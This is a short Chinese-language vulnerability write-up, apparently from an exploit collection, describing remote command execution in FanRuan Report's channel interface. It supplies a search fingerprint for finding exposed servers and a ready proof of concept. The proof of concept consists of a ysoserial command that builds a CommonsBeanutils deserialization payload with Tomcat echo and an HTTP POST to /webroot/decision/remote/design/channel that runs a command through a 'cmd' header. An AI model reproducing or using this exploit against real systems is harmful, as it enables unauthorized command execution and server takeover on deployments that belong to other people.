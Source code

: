 # 帆软报表 channel 远程命令执行漏洞

## 漏洞描述

帆软报表 channel 接口存在远程命令执行漏洞, 攻击者通过漏洞可以获取服务器权限，攻击服务器

## 漏洞影响

帆软报表</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Powered by 帆软"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1685439448593-9afc647d-ba30-452c-928e-9a6a49c04edd.png)

验证POC

```php
java -jar ysuserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```

![img](../../../.vuepress/public/img/1685439538732-8dee3451-21ea-427e-9f75-6ba5c29e3567.png)